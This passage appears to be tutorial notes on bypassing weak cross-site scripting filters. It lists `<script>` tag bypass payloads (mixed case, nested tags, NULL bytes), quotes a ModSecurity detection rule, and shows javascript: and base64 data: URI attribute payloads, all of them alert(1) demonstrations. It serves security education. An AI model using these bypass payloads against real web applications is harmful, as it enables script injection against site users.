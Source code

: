 Blacklisting Filters is the most filter mechanism being used. These type of filter's common goal is to detect specific patterns to prevent malicious behaviors.
## Bypassing Weak `<script>`  Filters.
The `<script>` tag is the primary method to execute JavaScript.

Some filters do not cover all possible cases, making them weak and prone to bypass techniques. The following is an example of few bypasses for weak `<script>` tag filter rules:

| Bypass Payload                               | Description                                                    |
| -------------------------------------------- | -------------------------------------------------------------- |
| `<ScRiPt>alert(1);</ScRiPt>`                 | Mixed of upper and lower-case characters.                      |
| `<ScRiPt>alert(1);`                          | Mixed of upper and lower-case characters, without closing tag. |
| `<script/random>alert(1);</script>`          | Random string after the tag name.                              |
| `<script`<br>`>alert(1);</script>`           | New line after the tag name.                                   |
| `<scr<script>ipt>alert(1);</scr<script>ipt>` | Nested tags.                                                   |
| `<scr\x00ipt>alert(1);</script>`             | NULL bytes.                                                    |
### ModSecurity Filter Rules
The following is an example of how ModSecurity filters the `<script>` tag:
```txt
SecRule ARGS
"(?i)(<script[^>]*>[\s\S]*?<\/script[^>]*>|<script[^>]
*>[\s\S]*?<\/script[[\s\S]]*[\s\S]|<script[^>]*>[\s\S]
*?<\/script[\s]*[\s]|<script[^>]*>[\s\S]*?<\/script|<s
cript[^>]*>[\s\S]*?)"
...[SNIP]...
```
### JavaScript using HTML Attributes
Alternatively, JavaScript can also be executed through the use of HTML attributes, below are some few examples:
- `<a href="javascript:alert(1)">show</a>`
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`
- 